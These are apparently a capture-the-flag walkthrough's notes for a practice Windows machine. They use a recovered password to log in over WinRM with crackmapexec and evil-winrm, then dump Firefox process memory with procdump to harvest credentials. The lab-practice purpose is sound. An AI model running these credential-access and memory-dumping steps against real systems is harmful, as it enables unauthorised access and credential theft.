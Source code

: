Chase
Q4)sJu\Y8qz*A3?d 

WinRm?

python3 cme winrm 10.10.10.149 -u Chase -p Q4)sJu\Y8qz*A3?d

![image](https://user-images.githubusercontent.com/6413570/163595484-d006bd8e-f1fe-451b-9e7c-bdf65e0438a9.png)

git clone https://github.com/Hackplayers/evil-winrm

![image](https://user-images.githubusercontent.com/6413570/163595515-0f8c110f-bded-4083-9e42-827388245914.png)

![image](https://user-images.githubusercontent.com/6413570/163595521-4a60a9a3-d7df-4acd-a3a5-656e2d8ecfb2.png)
gem install evil-winrm

ruby evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'

![image](https://user-images.githubusercontent.com/6413570/163595560-aa7aca38-34af-4f75-8151-3f1f44114479.png)

![image](https://user-images.githubusercontent.com/6413570/163595571-5e67d05b-7c3e-4355-92e0-16c8a5288ee5.png)

a127daef77ab6d9d92008653295f59c4

Privesc

![image](https://user-images.githubusercontent.com/6413570/163595603-47cf29b6-ee2d-431e-9269-f379ebd4dfa3.png)

![image](https://user-images.githubusercontent.com/6413570/163595613-70e25a2b-ba87-46d8-9054-127def4f23c9.png)

![image](https://user-images.githubusercontent.com/6413570/163595624-1b8ce3e6-735c-4a52-91f5-9f394449a0ca.png)

get-process -name firefox

download procdump

![image](https://user-images.githubusercontent.com/6413570/163595648-a54fba88-d16b-4318-af23-aa204ea52b19.png)

![image](https://user-images.githubusercontent.com/6413570/163595668-0caaee16-5985-4b64-930b-7a6c1e80fbc7.png)

![image](https://user-images.githubusercontent.com/6413570/163595673-d3041b10-19b6-4217-9f13-dce4bf2cfaef.png)

-ma flag to dump the entire memory of process
.\procdump.exe -ma 

get-process -name firefox

![image](https://user-images.githubusercontent.com/6413570/163595710-957d7654-b286-4a6d-a2bc-0bfebc7e9ecd.png)

PID is Id
3004

.\procdump.exe -ma 3004 firefox.dmp

First time running procdump needs -accepteula flag

